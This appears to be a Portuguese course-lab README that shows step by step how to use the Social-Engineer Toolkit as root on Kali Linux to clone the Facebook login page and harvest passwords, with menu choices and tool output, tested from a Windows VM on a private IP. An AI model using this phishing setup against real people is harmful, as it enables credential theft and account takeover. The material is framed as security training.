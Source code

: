 <h1>
    <a href="https://www.dio.me/">
     <img align="center" width="40px" src="https://hermes.digitalinnovation.one/assets/diome/logo-minimized.png"></a>
    <span>Desafio de projeto</span>
    <img align="center" width="100px" src="https://hermes.dio.me/tracks/f7103da6-32cf-46a4-be1c-c97067534355.png">    
</h1>

Disponibilização do **README.md** com orientações de como criar um Phishing para capturar senhas de login do Facebook.<br> **Formação Cybersecurity Specialist** da <img width="70px" background-color="black" src="https://hermes.digitalinnovation.one/assets/diome/logo.svg"> [Digital Innovation One](https://www.dio.me/).

**Pré-Requisitos:**

- **VM Windows**
- **VM Kali Linux**
- **Setoolkit:** Ferramenta para criar uma página falsa do Facebook para captura de senhas

## Configurando o Phishing no Kali Linux

1. Acessando com root: 
``` 
$ sudo su - root
```

2. Iniciando  a ferramenta **Setoolkit**: 
```
# setoolkit
```

3. Selecionando o tipo de ataque, neste caso a **opção 1**: 
```
...
            Visit: https://www.trustedsec.com
    It's easy to update using the PenTesters Framework! (PTF)
Visit https://github.com/trustedsec/ptf to update all your tools:

Select from the menu:

    1) Social-Engineering Attacks 
    2) Penetration Testing (Fast-Track)
    3) Third Party Modules
    4) Update the Social-Engineer Toolkit
    5) Update SET configuration
    6) Help, Credits, and About

    99) Exit the Social-Engineer Toolkit

set> 1
```

4. Selecionando o vetor de ataque no próximo menu, neste caso a **opção 2**: 
``` 
Select from the menu:

    1) Spear-Phishing Attack Vectors
    2) Website Attack Vectors
    3) Infectious Media Generator
    4) Create a Payload and Listener
    5) Mass Mailer Attack
    6) Arduino-Based Attack Vectors
    7) Wireless Access point Attack Vectors
    8) QRCode Generator  Attack Vectors
    9) Powershell  Attack Vectors
    10) Third Party Modules

    99) Return back to the main menu.

set> 2
```

5. Selecionando o método de ataque no próximo menu, neste caso a **opção 3**: 
```
...

    1) Java Applet Attack Method
    2) Metasploit Browser Exploit Method 
    3) Credential Harvester Attack Method
    4) Tabnabbing Attack Method
    5) Web Jacking Attack Method
    6) Muiti-Attack Web Method
    7) HTA Attack Method

    99) Return to Main menu

set:webattack> 3
```

6. Selecionando o método de ataque no próximo menu, neste caso a **opção 2**, em seguida o IP do servidor <enter>. Depois, informe a URL a ser clonada **www.facebook.com** : 
```
...
    1) Web Templates
    2) Site Cloner
    3) Custom Import

    99) Return to Webattack menu

set:webattack> 2
[-] Credential harvester will allow you to utilize the clone capabilities within SET
[-] to harvest credentials or parameters from a website as well as plac them into a report
...

set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.10.18]: <enter>
[-] SET supports both HTTP and HTTPS
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone:http://www.facebook.com

[*] Cloning the website: https://login.facebook.com/login.php
[*] This could take a litle bit..

The best way to use this attack is if username and password from fields are available. 
Regardless, this captures all POST on a website

[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80
[*] Information will be displayed to you as it arrives bellow:
192.168.10.18 - - [08/10/2023 01:21:54] "GET / HTTP/1.1" 200 -
...
```

7. Pela **VM Windows** acesse o IP configurado, neste caso **192.168.10.18**

## Resutados:

![Alt text](prints/passwd.png "Captura de tela do setoolkit")

![Alt text](prints/passwd1.png "Captura de tela do setoolkit")


## Referências:

[Capturando senhas com Social Engineering Toolkit e Ettercap](https://www.nanoshots.com.br/2015/09/capturando-senhas-com-social.html)

[Git Cassiano](https://github.com/cassiano-dio/cibersecurity-desafio-phishing)

[Git Trustedsec](https://github.com/trustedsec/ptf )